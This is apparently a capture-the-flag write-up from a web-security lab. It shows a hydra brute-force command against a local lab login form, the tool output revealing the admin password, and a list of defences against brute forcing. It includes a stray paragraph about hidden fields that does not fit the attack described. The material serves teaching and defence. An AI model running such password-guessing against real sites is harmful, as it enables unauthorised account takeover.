 # Bruteforce(member)

From coookies we know for sure that there is a user with login `admin`. Let's try to bruteforce the password for it.
[Here](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials) we have the most common passwords.

We use `hydra` to iterate through them:

```
daiseed@DESKTOP:~/darkly$ hydra -l admin -P ./500-worst-passwords.txt -F 192.168.31.135 http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-18 01:03:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-get-form://192.168.31.135:80/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif
[80][http-get-form] host: 192.168.31.135   login: admin   password: shadow
[STATUS] attack finished for 192.168.31.135 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-18 01:03:43
```

We have admin's password: `shadow`

Input `admin:password` into Login page and we have our flag

## Explanation

Attack type: [Brute force attack](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

> A common threat web developers face is a password-guessing attack known as a brute force attack. A brute-force attack is an attempt to discover a password by systematically trying every possible combination of letters, numbers, and symbols until you discover the one correct combination that works. If your web site requires user authentication, you are a good target for a brute-force attack.

Once the adversary has determined which hidden fields are not being validated by the server, they will manipulate them to change the normal behavior of the web application in a way that benefits the adversary.

## How to fix it

Below are several solitions to brute force attack. All of them have their own downsides and limitations, attackers can often circumvent many of these techniques by themselves, but by combining several techniques, you can significantly limit brute-force attacks.

1) Lock out accounts after a defined number of incorrect password attempts
2) Since the success of the attack is dependent on time, an easy solution is to inject random pauses when checking a password
3) Lock out an IP address with multiple failed logins
4) Design your Website not to use predictable behavior for failed passwords
5) After one or two failed login attempts, you may want to prompt the user not only for the username and password but also to answer a secret question
6) For advanced users who want to protect their accounts from attack, give them the option to allow login only from certain IP addresses.
7) Assign unique login URLs to blocks of users so that not all users can access the site from the same URL.
8) Use a CAPTCHA to prevent automated attacks
9) Instead of completely locking out an account, place it in a lockdown mode with limited capabilities.

Although brute-force attacks are difficult to stop completely, they are easy to detect because each failed login attempt records an HTTP 401 status code in your Web server logs. It is important to monitor your logfiles for brute-force attacks – in particular, the intermingled 200 statuscodes that mean the attacker found a valid password.